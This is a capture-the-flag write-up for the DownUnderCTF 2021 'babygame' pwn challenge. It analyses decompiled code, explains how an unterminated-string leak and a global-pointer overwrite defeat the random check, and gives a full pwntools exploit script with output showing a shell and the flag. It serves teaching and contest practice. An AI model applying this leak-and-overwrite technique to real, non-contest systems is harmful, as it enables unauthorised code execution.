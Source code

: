 # DownUnderCTF 2021

## babygame

> 100
> 
> Not your typical shell game...
> 
> Admin note: the server runs in a restricted environment where some of your favourite files might not exist. If you need a file for your exploit, use a file you know definitely exists (the binary tells you of at least one!)
>
> Author: grub
>
> `nc pwn-2021.duc.tf 31907`
>
> [`babygame`](babygame)

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _global-variable-overwrite_


## Summary

Leak a global address with an unterminated string, then overwrite said global with an address to a path to a predictable "urandom" to then "guess" the number and get a shell.

> Some bitched this was _guessy_.  This was not _guessy_ at all, they were just lazy.  The _Admin note_ above was caving into the demands of the lazy.

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Partial RELRO = GOT overwrite; Otherwise all mitigations in place.


### Decompile with Ghidra   

```c
void main(EVP_PKEY_CTX *param_1)
{
  int iVar1;
  
  init(param_1);
  puts("Welcome, what is your name?");
  read(0,NAME,0x20);
  RANDBUF = "/dev/urandom";
  do {
    while( true ) {
      while( true ) {
        print_menu();
        iVar1 = get_num();
        if (iVar1 != 0x539) break;
        game();
      }
      if (iVar1 < 0x53a) break;
LAB_0010126c:
      puts("Invalid choice.");
    }
    if (iVar1 == 1) {
      set_username();
    }
    else {
      if (iVar1 != 2) goto LAB_0010126c;
      print_username();
    }
  } while( true );
}
```

Both `NAME` and `RANDBUF` are globals (Ghidra actually color codes them to make them easy to spot, but I'm too lazy to take a screen shot and embed, so you'll have to see for yourself):

```
                     NAME 
001040a0 00 00 00        undefine...
         00 00 00 
         00 00 00 
                     RANDBUF 
001040c0 00 00 00        undefined8 0000000000000000h
         00 00 00 
         00 00
```

Notice that `NAME` is exactly `0x20` bytes before `RANDBUF`.  The `read(0,NAME,0x20);` does not terminate the input as a string, so if you input `0x20` (`32`) bytes and then read the string you can leak the value of `RANDBUF`.  `RANDBUF` is a pointer to a static string within the binary.  Using that pointer we can leak the process base address (PIE is enabled, so we need this leak).  If we know the process address, then we know the address of both `NAME` and `RANDBUF`.  We'll need this to win the `game`:

```
void game(void)
{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen(RANDBUF,"rb");
  fread(&local_14,1,4,__stream);
  printf("guess: ");
  iVar1 = get_num();
  if (iVar1 == local_14) {
    system("/bin/sh");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

`game` will open `RANDBUF` (set to `/dev/urandom` in `main`) and read 4 bytes.  You have to correctly guess the 4 bytes (2<sup>32</sup> possibilities) to win the game.

To _game_ the system we need to change `RANDBUF` to point to a string that is a file we know the contents of, or at least the first 4 bytes.  From the previous challenges we know the flag is `./flag.txt` and the first 4 bytes will be `DUCT`.  Other obvious options would be `./babygame` or `/bin/sh` (both have the same standard 4-byte ELF header).  To make this change we'll have to use:

```
void set_username(void)
{
  FILE *__stream;
  size_t __n;
  
  puts("What would you like to change your username to?");
  __stream = stdin;
  __n = strlen(NAME);
  fread(NAME,1,__n,__stream);
  return;
}
```

The bug here is that instead of limiting the input to `0x20` bytes like the initial `read` from `main`, it is limited by the length of the current `NAME`, which will be `0x20` + `6` (remember x86_64 address are usually 48-bits with `\0\0` as the most significant bytes) bytes if we started with a `0x20` (`32`) byte name and did not terminate with a null.

We have all the bits we need to exploit this challenge.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./babygame')

if args.REMOTE:
    p = remote('pwn-2021.duc.tf', 31907)
else:
    p = process(binary.path)

# send 32 byte name to leak address of binary
p.sendafter(b'?\n',32 * b'A')

# get binary address
p.sendlineafter(b'> ',b'2')
p.recv(32)
binary.address = u64(p.recv(6) + b'\0\0') - binary.search(b'/dev/urandom').__next__()
log.info('binary.address: ' + hex(binary.address))

# point RANDBUF to NAME; set NAME to ./flag.txt; we know flag starts with DUCT
p.sendlineafter(b'> ',b'1')

payload  = b''
payload += b'./flag.txt\0'
payload += (32 - len(payload)) * b'A'
payload += p64(binary.sym.NAME)[:6]

p.sendafter(b'?\n',payload)

# get shell
p.sendlineafter(b'> ',b'1337')
p.sendlineafter(b'guess: ',str(u32(b'DUCT')).encode())
p.interactive()
```

From top down, first we'll send `32` (`0x20`) bytes without a newline (hence `sendafter` vs `sendlineafter`).

Then we'll print the name to leak a binary address and compute the base.

Next we'll change our name to `./flag.txt\0` + enough garbage to get us to `RANDBUF` and set that pointer to point to `NAME`.

Finally, to get a shell we'll enter the magic number `1337` (see `main`), then send the bytes `DUCT` as an integer since that is what `get_num` expects.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/babygame/babygame'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn-2021.duc.tf on port 31907: Done
[*] binary.address: 0x55ab1e260000
[*] Switching to interactive mode
$ cat flag.txt
DUCTF{whats_in_a_name?_5aacfc58}
```
